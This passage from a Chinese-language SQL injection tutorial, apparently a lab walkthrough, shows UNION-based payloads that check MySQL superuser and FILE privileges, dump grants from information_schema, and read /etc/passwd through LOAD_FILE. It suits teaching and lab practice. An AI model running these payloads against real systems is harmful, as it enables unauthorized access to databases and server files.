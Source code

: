 ![img](https://p.ipic.vip/mt3xp0.jpg)

这是非常有前途的，因为根用户很可能是 DBA，这给了我们很多特权。

##### 用户权限

现在我们知道了我们的用户，我们可以开始寻找我们对那个用户有什么特权。首先，我们可以通过以下查询来测试我们是否拥有超级管理员权限：

```sql
SELECT super_priv FROM mysql.user
```

再一次，我们可以在上述查询中使用以下有效负载：

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

如果我们在 DBMS 中有很多用户，我们可以添加`WHERE user="root"`只显示当前用户的权限`root`：

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -  
```

![img](https://p.ipic.vip/d6y0ff.jpg)

查询返回`Y`，这意味着`YES`，表示超级用户权限。我们还可以使用以下查询直接从模式中转储我们拥有的其他特权：

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

再一次，我们可以添加`WHERE user="root"`以仅显示我们当前的用户`root`权限。我们的有效载荷将是：

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```

我们看到了所有可能赋予我们当前用户的权限：

![img](https://p.ipic.vip/yv5vct.jpg)

我们看到`FILE`为我们的用户列出了权限，使我们能够读取文件甚至可能写入文件。因此，我们可以继续尝试读取文件。

------

### 加载文件

现在我们知道我们有足够的权限来读取本地系统文件，让我们使用函数来做到这一点`LOAD_FILE()`。LOAD_FILE [()](https://mariadb.com/kb/en/load_file/)函数可用于 MariaDB / MySQL 从文件中读取数据。该函数只接受一个参数，即文件名。以下查询是如何读取文件的示例`/etc/passwd`：

```sql
SELECT LOAD_FILE('/etc/passwd');
```

注意：如果运行 MySQL 的 OS 用户有足够的权限读取文件，我们将只能读取该文件。

类似于我们一直使用`UNION`注入的方式，我们可以使用上面的查询：

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
